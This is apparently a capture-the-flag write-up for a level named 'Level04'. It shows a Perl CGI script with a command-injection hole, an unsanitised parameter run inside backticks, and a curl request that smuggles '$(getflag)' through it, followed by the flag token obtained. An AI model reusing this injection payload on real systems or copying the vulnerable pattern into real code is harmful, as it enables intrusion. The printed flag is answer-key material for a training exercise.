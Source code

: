 ### Level04

In our HOME we can see a perl script:
```pearl
    #!/usr/bin/perl
    # localhost:4747
    use CGI qw{param};
    print "Content-type: text/html";
    sub x {
      $y = $_[0];
      print `echo $y 2>&1`;
    }
    x(param("x"));`
```

The script takes a parameter and then prints it to the screen. We are also told that the result is accessible on localhost:4747.

To get the flag, all we have to do is run a command of our choice through the script. 

`curl localhost:4747?x='$(getflag)'`

Here we use a subshell to make the script run the getflag command. So we get the token :

`ne2searoevaevoem4ov4ar8ap`
